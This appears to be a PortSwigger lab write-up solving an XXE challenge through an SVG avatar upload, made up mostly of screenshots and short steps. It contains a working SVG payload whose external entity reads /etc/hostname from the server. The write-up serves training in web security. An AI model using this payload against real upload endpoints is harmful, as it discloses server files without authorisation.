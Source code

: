 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/3d7e6c9c-fb51-40d3-9250-eb131a1b79e7)

## Solution:

First upload a random image as avvatar

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7c142d18-e099-4431-8a3e-f515f1f06935)

Select the requwsts from http history

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/4c482596-635c-4362-a97e-fc18a0023ef9)

Create a local SVG image with the following content:

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/281d48c3-b1ad-4e0d-b24c-eeeea83aaa45)

Post a comment on a blog post, and upload this image as an avatar.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/721f026a-89d7-4394-afdd-11abd54cb110)

When you view your comment, you should see the contents of the /etc/hostname file in your image. Use the "Submit solution" button to submit the value of the server hostname.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/0ea8391e-bcaf-4773-a397-8277bc7342df)

Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/6b80124b-c9b9-4561-8a44-d928a30cd2f3)

